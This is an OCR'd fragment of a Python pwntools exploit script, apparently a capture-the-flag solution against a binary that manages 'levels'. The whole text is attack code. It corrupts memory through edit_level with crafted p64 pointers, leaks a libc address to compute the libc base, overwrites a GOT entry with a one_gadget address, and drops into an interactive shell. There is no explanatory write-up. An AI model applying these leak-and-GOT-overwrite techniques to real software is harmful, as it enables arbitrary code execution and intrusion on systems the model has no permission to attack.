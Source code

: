 ```python
    reset(io)
    explore(io, b'0')
    edit_level(io, b'A'*0x20+b'B'*0x10+p64(with_offset_to_libc_start_main)+b'\x00'*8)
    reset(io)
    explore(io, b'1')
    explore(io, b'0')
    leak = test_level(io)[:19].split(b' Level data: ')[1]
    libc_leak = int.from_bytes(leak, byteorder='little')
    libc_leak_offset = 0x27280
    libc_base = libc_leak - libc_leak_offset
    validate_leaked_addresses(io, libc_base=libc_base)
    return libc_base

def preps(io):
    create_level(io, b'0')
    create_level(io, b'1')
    create_level(io, b'2')
    explore(io, b'0')
    edit_level(io, b'A'*0x10)
    reset(io)
    explore(io, b'1')
    create_level(io, b'0')

def overwrite_got(io, got_addr):
    target_entry_got = 7
    got_target = got_addr - (0x8 * 0x8) + (0x8 * target_entry_got)
    reset(io)
    explore(io, b'0')
    edit_level(io, b'A'*0x20+b'B'*0x10+p64(got_target)+b'\x00'*8)

    reset(io)
    explore(io, b'1')
    explore(io, b'0')

    one_gadget_offset = 0xd511f
    # one_gadget_offset = 0x4c139
    # one_gadget_offset = 0x4c140

    gadget_addr = libc.address + one_gadget_offset
    edit_level(io, p64(gadget_addr))
    io.sendline(b'-i\x00')

def main():
    io = start_conn()
    base_addr = base_leak(io)
    exe.address = base_addr

    got_offset = 0x4000
    got_addr = base_addr + got_offset

    libc_start_main_offset = 0x3FC0
    libc_start_main_leak = base_addr + libc_start_main_offset
    preps(io)
    libc_base = libc_leak(io, libc_start_main_leak)
    libc.address = libc_base

    overwrite_got(io, got_addr)

    io.interactive()
    clean_up()



```